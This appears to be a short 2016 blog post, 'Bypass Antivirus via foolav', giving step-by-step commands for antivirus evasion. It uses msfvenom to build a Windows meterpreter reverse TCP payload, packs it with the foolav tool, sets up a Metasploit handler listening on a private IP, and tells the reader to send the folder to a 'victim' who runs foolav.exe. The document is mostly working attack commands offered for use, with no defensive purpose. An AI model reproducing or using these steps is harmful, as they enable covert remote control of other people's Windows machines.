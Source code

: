 ```yaml
---
title: Bypass Antivirus via foolav
date: 2016-05-26 16:54:15
tags: foolav
---
```

#### Download
[foolav](https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip)
#### Start msfvenom

```
>msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=8080 -a x86 -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" > foolav.mf
```
#### cp foolav.mf to foolav directory
#### Start msf cosole
```
> msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf exploit(handler) > set LPORT 8080
LPORT => 8080
msf exploit(handler) > exploit -j
```
#### send foolav foler to your victim :)
#### windows victim run foolav.exe :)
